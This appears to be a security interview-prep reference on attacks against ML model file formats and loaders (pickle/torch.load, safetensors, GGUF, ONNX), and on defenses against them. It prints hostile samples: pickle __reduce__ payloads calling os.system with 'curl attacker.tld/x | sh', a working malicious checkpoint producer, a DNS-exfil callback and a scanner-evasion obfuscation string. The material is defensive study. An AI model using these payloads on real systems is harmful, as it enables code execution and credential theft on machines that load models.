

# Model File Formats and Loaders

> Model file formats sit on a spectrum from Turing-complete-by-design to strictly data-only, and the format itself is the first control. Pickle is a stack VM whose `REDUCE` opcode calls attacker-named functions with attacker-supplied arguments, so any `.pkl`, `.pt`, `.bin`, or joblib artifact from an untrusted source must be treated as an executable. Safetensors was authored specifically to break that class: its parser is a length-prefixed JSON header plus raw byte slices with no callable invocation anywhere in the code path. GGUF and ONNX sit in the middle, where bytes are inert but header parsing bugs and, for ONNX, custom-operator registration still give an attacker code execution or DoS surface. The root cause of every RCE in this family is that the loader is willing to resolve a name to a callable and invoke it during deserialization. Principal-level answers treat "which format" as the first control, not "which scanner".

**Interview frequency:** Niche

## Quick reference

```
# pickle opcode stream from a malicious .pt file (disassembled with pickletools)
    0: \x80 PROTO      4
    2: \x95 FRAME      42
   11: \x8c SHORT_BINUNICODE 'posix'
   18: \x94 MEMOIZE
   19: \x8c SHORT_BINUNICODE 'system'
   27: \x94 MEMOIZE
   28: \x93 STACK_GLOBAL              # resolves to posix.system
   29: \x94 MEMOIZE
   30: \x8c SHORT_BINUNICODE 'curl attacker.tld/x|sh'
   54: \x94 MEMOIZE
   55: \x85 TUPLE1
   56: \x94 MEMOIZE
   57: R   REDUCE                     # calls posix.system('curl ...')
   58: .   STOP

# safetensors on-disk layout (safe by construction)
    [ 8-byte little-endian header_len ]
    [ header_len bytes: JSON dict { "tensor_name": {dtype, shape, data_offsets:[a,b]}, ... , "__metadata__": {...} } ]
    [ raw tensor bytes, sliced by data_offsets, NEVER interpreted as code ]

# GGUF (llama.cpp) header, little-endian
    magic      = "GGUF"          (4B)
    version    = uint32          (v3 at time of writing)
    tensor_ct  = uint64
    kv_ct      = uint64
    kv[]       : { key_len:u64, key:utf8, value_type:u32, value:... }   # recursive for arrays
    tensor[]   : { name_len:u64, name, n_dims:u32, dims[u64], type:u32, offset:u64 }
    alignment padding to general.alignment (default 32)
    tensor_data blob

# ONNX (protobuf ModelProto)
    ir_version, opset_import[], producer_name,
    graph { node[] { op_type, domain, input[], output[], attribute[] }, initializer[] (TensorProto) }
    # op_type + domain resolve at load time to a kernel; custom domains can load .so/.dll
```

| Invariant | Where enforced | How violated | Source |
|---|---|---|---|
| Deserialization must not execute attacker-controlled code | Loader (pickle, torch.load, joblib) | pickle `REDUCE` (`R`) opcode calls any resolvable Python callable with attacker args | CPython pickle documentation |
| Tensor bytes are inert data, not code | safetensors reader | Format never invokes callables, only mmaps bytes by offset | huggingface/safetensors format spec |
| Declared tensor extent must match backing bytes | GGUF / safetensors parser | Header lies about `data_offsets` or GGUF `offset`, causing OOB read or OOM alloc | safetensors format doc; llama.cpp gguf.md |
| Header sizes must be bounded before allocation | Loader ingest path | 8-byte length prefix says 2^63 bytes, naive parser calls `malloc` and dies or reads uninitialized | llama.cpp GGUF parser advisories; general parser hygiene |
| Only trusted operators execute in the graph | ONNX Runtime session init | Model declares custom op in unknown domain, runtime loads shared library from disk | ONNX Runtime custom op registration docs |
| Model provenance is verified before load | CI / package registry / model hub | HuggingFace repo pulled anonymously with no signature check | HF Hub advisories, sigstore model-signing |
| Loader never runs during untrusted-repo browsing | IDE / notebook auto-preview | VS Code / notebook auto-loads `.pkl` on click, `__reduce__` fires | Trail of Bits Fickling advisories |

## How it works

### pickle: a stack machine that constructs Python objects

Python's `pickle` module implements a small opcode-based virtual machine. The unpickler reads one opcode at a time, pushes and pops operands on a stack, and eventually produces a Python object graph. Two opcodes make it dangerous:

- `GLOBAL` / `STACK_GLOBAL` (`c` / `\x93`): resolve a module-qualified name (`os.system`, `builtins.eval`, `subprocess.Popen`, etc.). The unpickler will import the module.
- `REDUCE` (`R`): pop a callable and an args tuple, invoke `callable(*args)`, push the result.

An object opts into custom pickling via `__reduce__`, returning `(callable, args)`. The unpickler faithfully executes that tuple, which is the RCE primitive. `torch.load` used pickle by default until PyTorch 2.6 flipped `weights_only=True` as the default; earlier versions or explicit `weights_only=False` still evaluate the opcode stream. joblib, `dill`, and any framework that stores a Python object graph inherits this attack surface.

Fickling is a symbolic evaluator over the pickle opcode stream. It never invokes `REDUCE`, but it tracks which globals get pulled and which calls would happen, then flags dangerous imports and constructs a safe-load policy. It is a static disassembler for the format, not a sandbox.



### safetensors: header JSON plus tensor bytes

The safetensors format is deliberately simple. First 8 bytes: little-endian unsigned integer, length of the header. Header: a UTF-8 JSON dict mapping tensor names to `{dtype, shape, data_offsets: [start, end]}`, plus an optional `__metadata__` key with string-to-string entries. Everything after the header is a contiguous binary blob; each tensor is a byte slice `[start, end)` in that blob.

The loader validates:
- header size is bounded and reasonable,
- header parses as JSON with the allowed schema,
- each `[start, end)` fits inside the trailing region and matches `dtype * prod(shape)`.

There is no opcode stream, no callable resolution, no metadata that names a function. `__metadata__` values are strings, not code. This is why the safetensors README opens with an explicit threat-model comparison to pickle.

### GGUF: a compact tensor container for llama.cpp

GGUF is a single-file container: 4-byte `GGUF` magic, uint32 version, then a key/value metadata block and a tensor descriptor table, followed by a padded tensor data region. Metadata values are typed (int, float, bool, string, array). The parser must recurse into arrays and validate every length prefix against remaining file bytes, otherwise a crafted `u64` length triggers an oversized allocation or an OOB read. Tensor descriptors reference absolute file offsets, so a bad `offset` field can point outside the file or overlap another tensor. GGUF has no callable-invocation path, but a naive parser will still crash or DoS on a malformed header.

### ONNX: a protobuf graph plus opset resolution

ONNX serializes to a `ModelProto` protobuf. The graph is a DAG of `NodeProto`s, each with an `op_type` and a `domain`. At load time, the runtime resolves `(domain, op_type, opset_version)` against a registry of kernels. The standard `ai.onnx` domain is safe; opset kernels ship with the runtime. Custom domains are the surface: ONNX Runtime supports registering C/C++ custom ops via a shared library, and some deployment pipelines auto-register plugins from a directory. A model that declares a custom op forces the runtime to look up (or fail on) that kernel; if the deployment auto-loads companion `.so`/`.dll` files, the attacker chains file-planting with model-loading. Protobuf parsing itself has had CVEs (integer overflow, quadratic parsing), and ONNX Runtime has issued fixes for tensor-shape and initializer parsing.

## Attack techniques

### 1. Pickle `__reduce__` RCE in a PyTorch checkpoint

A `.pt` / `.bin` / `.pkl` file contains an object whose `__reduce__` returns `(os.system, ("curl attacker.tld/x | sh",))`. When the victim calls `torch.load(path)` (pre-2.6 default, or `weights_only=False`), the unpickler evaluates the `REDUCE` opcode and executes the command as the loading process<sup>[[1]](#ref1)</sup><sup>[[2]](#ref2)</sup><sup>[[3]](#ref3)</sup>. A minimal producer:

```python
import pickle, os, torch
class Boom:
    def __reduce__(self):
        return (os.system, ("id > /tmp/pwned",))
torch.save({"state_dict": {}, "trigger": Boom()}, "model.pt")
# victim: torch.load("model.pt")  -> executes id > /tmp/pwned
```

Real-world files hide the trigger inside a nested container so `pickletools.dis` output is long and the malicious `REDUCE` is not near the start. Confirm black-box by disassembling with `python -m pickletools -a model.pt` or running Fickling: `fickling --check-safety model.pt`<sup>[[3]](#ref3)</sup>, looking for `GLOBAL` / `STACK_GLOBAL` naming `posix`, `os`, `subprocess`, `builtins`, `runpy`, `pty`, `socket`, `commands`. The blind variant does not need to return a valid checkpoint; if the exception happens after the `REDUCE`, code already ran. An OOB variant uses a DNS-exfil callback (`curl attacker.tld/$(hostname)`) to confirm execution even when stdout is discarded.

Escalation gives full RCE as the training or serving user. In HuggingFace Spaces or shared inference workers, this is a tenant boundary. On CI runners that run `pytest` importing a model fixture, this becomes credential theft (GITHUB_TOKEN, HF token, cloud metadata). MITRE ATLAS AML.T0010 (Supply Chain Compromise) and AML.T0018 (Backdoor ML Model) cover the class<sup>[[4]](#ref4)</sup>.

### 2. HuggingFace Hub weaponized repository

An attacker publishes a repository with a legitimate-looking model card and a malicious `pytorch_model.bin` (or `.pkl` sidecar). Users who run `AutoModel.from_pretrained("attacker/model")` invoke `torch.load` on the downloaded artifact. HuggingFace's picklescan runs server-side and flags known-bad imports, but only for the pickle formats and only for known signatures; obfuscation (`getattr(__import__("os"), "system")`) has bypassed it in the past<sup>[[5]](#ref5)</sup><sup>[[6]](#ref6)</sup>. The payload is the same `__reduce__` trigger as (1), packaged as a full repo with `config.json`, `tokenizer.json`, and a `pytorch_model.bin` that also contains a valid state dict so the download appears legitimate.

Confirm black-box with `huggingface-cli scan-cache` plus Fickling over every `.bin`/`.pkl` under `~/.cache/huggingface/hub`, and check the HF security tab on the repo, which surfaces picklescan findings. An OOB variant has the payload write to a canary file or beacon to a DNS name.

Escalation reaches RCE inside the developer laptop, notebook worker, or inference container. If the model is pulled into a production serving pipeline, escalation reaches the serving cluster. HuggingFace has published multiple advisories under `huggingface-security` for repos identified by third-party scanners<sup>[[5]](#ref5)</sup><sup>[[6]](#ref6)</sup>.

### 3. joblib and scikit-learn pickle load

`joblib.load` is `pickle.load` with fast NumPy handling; the RCE surface is identical. sklearn's persistence guidance explicitly warns that loading a pickled estimator from an untrusted source is unsafe<sup>[[7]](#ref7)</sup>. The payload is the same as (1); serialize any object with a hostile `__reduce__` into a `.joblib` file.

Confirm black-box using Fickling, which handles joblib streams (they are pickle at the byte level). Look for framework wrappers that eagerly load estimator artifacts from S3, MLflow, or DVC without provenance. In batch ML pipelines running as a shared service account, escalation grants access to the training data bucket and any downstream model registry credentials.

### 4. GGUF header integer overflow and oversized allocation

A GGUF file declares a metadata array of length `2^63 - 1` or a tensor `offset` beyond EOF. A naive parser calls `malloc(length * elem_size)`, integer-overflows, and either aborts, mmaps garbage, or reads past the buffer. llama.cpp has patched multiple such issues<sup>[[8]](#ref8)</sup>. A hand-crafted GGUF with valid magic and version, then a KV entry `general.name` of type STRING with a length prefix of `0xFFFFFFFFFFFFFFF0`, or a tensor descriptor with `offset` = `file_size + 1`, exercises the class.

Run the target loader under AddressSanitizer or Valgrind on a fuzzed corpus. Fuzzers like `gguf-fuzzer` or general libFuzzer harnesses on `ggml_gguf_init_from_file` surface these crashes. The blind variant is DoS-only, so no OOB signal is needed.

Escalation is an availability impact against inference services that auto-ingest community GGUFs from open buckets. Some overflows have progressed to controlled reads (info leak) and, in worst cases, memory corruption inside the loader process.

### 5. ONNX custom operator loading

The model declares an op in a non-standard domain (e.g., `com.attacker`). ONNX Runtime resolves the op against registered kernels. If the pipeline auto-registers custom-op shared libraries from a directory (a pattern in some deployment templates), the attacker plants a `.so`/`.dll` alongside the model and the runtime `dlopen`s it during session initialization<sup>[[9]](#ref9)</sup><sup>[[10]](#ref10)</sup>. A minimal ONNX model whose only node uses `op_type="Exfil"`, `domain="com.attacker"`, and an attached `libcom_attacker.so` implementing a constructor that executes on load, is enough.

Confirm black-box: `onnx.checker.check_model` reports the custom domain, and `strings model.onnx | grep -i domain` surfaces non-`ai.onnx` domains. If the runtime is configured with `SessionOptions.RegisterCustomOpsLibrary`, the load path is confirmed. Blind variant: the shared library beacons on constructor.

Escalation delivers RCE as the inference service. In multi-tenant model-hosting platforms, this crosses the tenant boundary if the runtime process serves other customers.

### 6. Pickle-in-safetensors metadata (misuse pattern)

safetensors itself is safe, but developers sometimes stash pickled Python objects inside `__metadata__` as a base64 string and re-hydrate with `pickle.loads` at load time. The wrapper undoes the format's safety guarantee<sup>[[11]](#ref11)</sup>. The payload is a safetensors file with `__metadata__["state"] = base64(pickle.dumps(Boom()))` and a loader that decodes and unpickles it.

Confirm by grepping the loader for `pickle.loads`, `base64.b64decode`, `dill.loads` near safetensors parsing, and inspecting `__metadata__` for suspicious length strings. Escalation matches (1) exactly, and is especially insidious because "we use safetensors" appears in the security posture.

### 7. Notebook and IDE auto-preview triggering `torch.load`

VS Code / Jupyter extensions and some MLOps UIs auto-preview model files when the user clicks a repo entry, invoking `torch.load` in the background. The click is the trigger<sup>[[3]](#ref3)</sup><sup>[[12]](#ref12)</sup>. The payload is any pickle payload from (1), committed to a repo alongside a tempting filename (`best_model.pt`).

Enumerate extensions that register handlers for `.pt`/`.bin`/`.pkl` and test in a disposable VM. Escalation lands RCE as the developer, on the developer laptop that holds cloud SSO cookies, npm/pip tokens, and source-code checkouts.

## Defense

### Real fix

1. **Use safetensors as the on-disk weight format.** safetensors has no callable-invocation opcodes; the loader is a JSON header parse plus offset math. This eliminates the pickle RCE class outright and is the invariant enforced<sup>[[11]](#ref11)</sup>. Common wrong implementation: storing arbitrary Python objects (tokenizer state, optimizer state) inside `__metadata__` as base64 pickle blobs (see attack 6). Source: huggingface/safetensors design doc; PyTorch's `weights_only` mode ships the equivalent invariant for `.pt` files<sup>[[1]](#ref1)</sup>.

2. **Set `weights_only=True` (PyTorch 2.6+ default, opt in on 2.4/2.5).** `torch.load(..., weights_only=True)` walks the pickle stream with a restricted unpickler that only allows a fixed set of tensor-related globals, denying `os.system` and friends by construction<sup>[[1]](#ref1)</sup><sup>[[2]](#ref2)</sup>. Enforce project-wide via a linter rule or a monkey-patch that raises on `weights_only=False`. Common wrong implementation: passing user-controlled paths to `torch.load` without setting the flag; teams remember the flag on the "prod" path but forget it on evaluation and tests.

3. **Format allowlist at the ingest boundary.** The model registry, artifact store, and serving loader all reject anything outside `{safetensors, gguf}` unless the artifact is signed by a known internal identity. Enforce with a CI check (`.pkl`/`.bin` in a PR fails) and with a runtime check in the loader. Common wrong implementation: allowlisting by file extension only, so an attacker names a pickle blob `model.safetensors` and the loader still runs `pickle.load` because it dispatches on filename; enforce by magic-byte inspection and by pointing the loader function itself at the safe parser. Source: OWASP ML Top 10 ML06 supply-chain guidance and MITRE ATLAS AML.T0010<sup>[[4]](#ref4)</sup><sup>[[13]](#ref13)</sup>.

### Defense in depth

1. **Scan every pickle artifact with Fickling before it touches an unpickler.** Fickling parses the opcode stream symbolically and denies risky globals; run it as a pre-load gate in serving code and in CI on any model artifact<sup>[[3]](#ref3)</sup>. Common wrong implementation: relying only on HuggingFace picklescan without a client-side check, and treating "no findings" as safe when the payload used string-concatenation obfuscation to hide `os.system` from a signature list<sup>[[5]](#ref5)</sup>. Invariant: no pickle byte hits `Unpickler.load()` without a static disassembly pass first. Cross-link to [08-insecure-deserialization.md](./08-insecure-deserialization.md).

2. **Provenance and signature verification.** Sigstore-based model signing (`sigstore/model-transparency`) attests who built the model, and the loader verifies against a transparency log entry before load<sup>[[14]](#ref14)</sup>. Common wrong implementation: verifying only the HTTPS TLS to `huggingface.co` and treating the repo owner string as identity. Cross-link [36-llm-supply-chain.md](./36-llm-supply-chain.md).

3. **Custom-op allowlist in ONNX Runtime.** Never auto-register custom-op libraries from a data directory. Explicitly call `SessionOptions.RegisterCustomOpsLibrary` with paths under your control, and refuse to load a model whose `NodeProto.domain` is not in `{ai.onnx, ai.onnx.ml, <your internal domain>}`<sup>[[9]](#ref9)</sup><sup>[[10]](#ref10)</sup>. Common wrong implementation: shipping a "plugins/" folder next to models and scanning it at session init.

4. **Hardened GGUF parser plus fuzzing.** Bound header sizes before allocation, validate every offset against file length, and treat metadata array lengths as untrusted. Continuous libFuzzer coverage against the GGUF parser catches integer overflows before the shipping build<sup>[[8]](#ref8)</sup>. Common wrong implementation: `malloc(kv.len * sizeof(elem))` without an overflow check; the same pattern that produced multiple llama.cpp fixes.

5. **Sandbox the loader.** Even with all the above, the first-time load of an unknown artifact runs inside a container with no network, no cloud metadata reachable, no secrets mounted, and a read-only filesystem. This bounds the blast radius of a novel bypass. Common wrong implementation: bind-mounting `~/.aws`, the Docker socket, or the IMDS-reachable host network into the sandbox for "convenience", which turns the sandbox into a credential-theft accelerator. Source: NIST SP 800-190 Application Container Security Guide<sup>[[16]](#ref16)</sup>. Cross-link [51-sandbox-escape-via-composition.md](./51-sandbox-escape-via-composition.md).

## Detection and telemetry

Log every `torch.load`, `pickle.load`, `joblib.load`, `dill.load` call with the loading process, PID, and file SHA-256. Alert on any call where `weights_only=False` reaches production paths. Fickling runs as a pre-commit hook and a CI job on the model registry; publish findings to the same pipeline that consumes SAST results. Egress alerting on the model-loading container is high-signal: any outbound connection during a load window matters, because loaders should not touch the network.

File-system watchers on `~/.cache/huggingface/hub` and MLflow artifact roots hash every `.bin`/`.pkl` and compare to a known-good list, and deviations trigger the model-signing verifier. Canary artifacts, such as an internal repository containing a benign `__reduce__` that writes a beacon file and beacons to an internal telemetry URL, catch developers or CI pipelines loading unknown pickles without gating. Pull the HF Hub advisory feed (`https://huggingface.co/docs/hub/security-status`) and the PyPI Safety DB into the vuln pipeline.

## Interviewer probes

**Q: What exact opcode makes pickle dangerous, and where does it live in a `torch.load` call?**

Mid: The `REDUCE` opcode is what actually calls the function pickle reconstructed, and `torch.load` runs the file through Python's regular unpickler unless you pass `weights_only=True`.

Principal: `REDUCE` (`R`) pops `(callable, args)` off the stack and invokes `callable(*args)`; the callable is resolved earlier by `GLOBAL` / `STACK_GLOBAL` (`c` / `\x93`), which imports the module. `torch.load` hands the file to `pickle_module.Unpickler.load()` unless `weights_only=True`, in which case a restricted unpickler with an allowlisted global map runs instead. Failure mode: someone flips `weights_only=False` for a legacy checkpoint and the whole class returns. See CVE-2019-6446 (numpy `allow_pickle`, disputed by NumPy maintainers but still the earliest widely-cited illustration of the default-allow-pickle risk) and the PyTorch 2.6 rollout of `weights_only=True` as the modern canonical fix. Pickle protocol 5 / PEP 574 introduced out-of-band buffers, which does not change the RCE surface but does change what a scanner must trace<sup>[[17]](#ref17)</sup>.

**Q: Why is safetensors actually safe, not just "safer"?**

Mid: Safetensors only stores a JSON header describing tensor shapes and offsets plus raw bytes, so there's no code path in the parser that can execute anything.

Principal: the parser is JSON header parse plus offset math; there is no code path that resolves a name to a callable and invokes it. The invariant is "the format has no execution primitive." Failure mode: developers stash pickle blobs inside `__metadata__` and re-hydrate them, which is a wrapper-level violation of the invariant. Defense trade-off: safetensors does not preserve arbitrary Python graph state, so frameworks that need it (optimizer step, custom class instances) have to redesign persistence.

**Q: If I run Fickling and it returns clean, am I safe to load the file?**

Mid: A clean Fickling scan means no known-dangerous globals were found in the pickle stream, which is a strong signal, but I would still want other checks before fully trusting the file.

Principal: no. Fickling raises confidence but is a static analyzer over opcode semantics; it can be evaded with novel gadget chains that recompose approved globals into dangerous behavior, and it does not sandbox the actual load. Combine Fickling with `weights_only=True` and a sandboxed first-load. Multiple HF Hub repos have shipped payloads that fooled early picklescan signatures until Fickling caught them, and signature-based scanners lose to string-concatenation obfuscation (`getattr(__import__("o"+"s"), "sys"+"tem")`).

**Q: How does GGUF get exploited if it has no callable invocation?**

Mid: GGUF itself has no code-execution path, but a malformed header with bad lengths or offsets can still crash or corrupt the loader, so parser bugs are the real risk.

Principal: parser bugs. Metadata array lengths and tensor offsets are attacker-controlled 64-bit integers; naive allocation without overflow checks produces DoS, and misaligned offsets have progressed to OOB reads. The safety property is "no callable invocation," not "unexploitable," so fuzzing the parser is not optional. Defense: bounded allocations, offset validation against file length, and continuous libFuzzer coverage. Failure mode: a downstream project vendors an older llama.cpp GGUF parser and misses the fix.

**Q: What is the ONNX Runtime custom operator attack surface?**

Mid: A model can reference a custom operator outside the standard `ai.onnx` domain, and if the runtime is configured to load a matching custom-op shared library, that gives the model a way to run native code.

Principal: models declare op `(domain, op_type)` pairs; the runtime resolves them against registered kernels. Standard `ai.onnx` is safe, but ORT supports `RegisterCustomOpsLibrary(path)`, and deployments that scan a plugins directory at startup turn model-load into `dlopen`. Any deployment that auto-registers plugin libraries is a `dlopen` primitive dressed up as a model load. Defense: allowlist domains at parse time and register custom-op libraries only from explicit, controlled paths.

**Q: Your CI runs on model PRs. How do you keep a malicious `pytorch_model.bin` in a fixture from popping the runner?**

Mid: Run any pickle-based fixture through a scanner like Fickling before it loads, and avoid loading untrusted model files directly on a runner that holds real credentials.

Principal: multiple layers. Reject non-allowlisted formats at the PR check. Fickling pass on any surviving pickle. Run the actual load inside a locked-down container with no cloud credentials mounted, no outbound network, and no bind mounts to the host workspace beyond the artifact. Compare loaded SHA-256 to a signed registry entry. Reference class: GitHub Actions supply-chain compromises where a workflow ran attacker code with `GITHUB_TOKEN` still in scope.

**Q: A team says "we sign our models, so we do not need to worry about pickle". Response?**

Mid: Signing tells you who produced the file, not whether the file itself is safe to load, so a signed pickle can still contain a malicious `__reduce__`.

Principal: signing establishes provenance, not safety. A signed pickle is a pickle. The correct combination is signed plus format-restricted (safetensors or `weights_only`-loadable). Otherwise a compromised training pipeline or a rogue insider signs the malicious artifact and the signature check waves it through.

**Q: Which of these is more dangerous in practice, a pickle in a private model registry or a pickle from HuggingFace?**

Mid: A pickle pulled from a public HuggingFace repo is the bigger worry by default, since anyone can publish there, whereas an internal registry is usually more tightly controlled.

Principal: depends on your identity model. A private registry with weak internal RBAC and no signature check is often worse because engineers implicitly trust it; a hostile HF repo at least raises "external" flags. HF picklescan is best-effort, repos have been weaponized in the past, and treating a hub as a trust boundary flattens supply-chain risk. The invariant to enforce is "no pickle regardless of source," not "trust internal, distrust external."

## War story

In February 2024, JFrog Security Research reported roughly 100 malicious models hosted on the Hugging Face Hub that embedded pickle-based payloads capable of establishing reverse shells on the loading machine<sup>[[15]](#ref15)</sup>. One reported example used a `__reduce__` that opened a socket back to an attacker-controlled host during `torch.load`. The repositories carried legitimate-looking metadata (model cards, `config.json`, tokenizer files) so at a glance they resembled ordinary uploads, and the malicious behavior fired only when a downstream user actually loaded the checkpoint into memory. HuggingFace's server-side picklescan flagged some but not all payloads, and the disclosure noted obfuscation patterns that bypassed the signature-based scanner. Defender takeaway: format allowlist (safetensors), `weights_only=True` for any remaining `.pt`/`.bin`, Fickling in CI, and treating the hub as an untrusted CDN, not a trusted registry. This is a live pattern, not a historical one; HuggingFace has continued to publish security-status updates as new payload families surface<sup>[[5]](#ref5)</sup>.

## Sources

<a id="ref1"></a>[1] PyTorch `torch.load` documentation, `weights_only` parameter and safety notes. https://pytorch.org/docs/stable/generated/torch.load.html

<a id="ref2"></a>[2] PyTorch security blog: "Understanding CVE-2025-32434 and the weights_only default flip", and PyTorch release notes. https://pytorch.org/blog/pytorch-security-status/ , https://github.com/pytorch/pytorch/releases

<a id="ref3"></a>[3] Fickling: a decompiler, static analyzer, and bytecode rewriter for Python pickle files. Trail of Bits. https://github.com/trailofbits/fickling

<a id="ref4"></a>[4] MITRE ATLAS: AML.T0010 ML Supply Chain Compromise, AML.T0018 Backdoor ML Model. https://atlas.mitre.org/techniques/AML.T0010 , https://atlas.mitre.org/techniques/AML.T0018

<a id="ref5"></a>[5] Hugging Face Hub security documentation, malware and pickle scanning. https://huggingface.co/docs/hub/security-malware , https://huggingface.co/docs/hub/security-pickle

<a id="ref6"></a>[6] picklescan (mmaitre314) source and evasion history. https://github.com/mmaitre314/picklescan

<a id="ref7"></a>[7] scikit-learn model persistence, security and maintainability limitations. https://scikit-learn.org/stable/modules/model_persistence.html

<a id="ref8"></a>[8] llama.cpp and ggml GGUF specification and parser advisories. https://github.com/ggml-org/ggml/blob/master/docs/gguf.md , https://github.com/ggerganov/llama.cpp/security/advisories

<a id="ref9"></a>[9] ONNX specification (IR and operators). https://github.com/onnx/onnx/blob/main/docs/IR.md , https://github.com/onnx/onnx/blob/main/docs/Operators.md

<a id="ref10"></a>[10] ONNX Runtime custom operator API and `SessionOptions.RegisterCustomOpsLibrary`. https://onnxruntime.ai/docs/reference/operators/add-custom-op.html

<a id="ref11"></a>[11] safetensors format specification and safety rationale. Hugging Face. https://github.com/huggingface/safetensors

<a id="ref12"></a>[12] Python `pickle` module documentation, "Warning: never unpickle data from an untrusted source". https://docs.python.org/3/library/pickle.html

<a id="ref13"></a>[13] OWASP Machine Learning Security Top 10, ML06 AI Supply Chain Attacks. https://owasp.org/www-project-machine-learning-security-top-10/docs/ML06_2023-AI_Supply_Chain_Attacks

<a id="ref14"></a>[14] sigstore model-transparency / model-signing project. https://github.com/sigstore/model-transparency

<a id="ref15"></a>[15] "Data scientists targeted by malicious Hugging Face ML models with silent backdoor". JFrog Security Research. February 2024. https://jfrog.com/blog/data-scientists-targeted-by-malicious-hugging-face-ml-models-with-silent-backdoor/

<a id="ref16"></a>[16] NIST SP 800-190, Application Container Security Guide. National Institute of Standards and Technology. September 2017. https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-190.pdf

<a id="ref17"></a>[17] PEP 574, Pickle protocol 5 with out-of-band data. Python. https://peps.python.org/pep-0574/
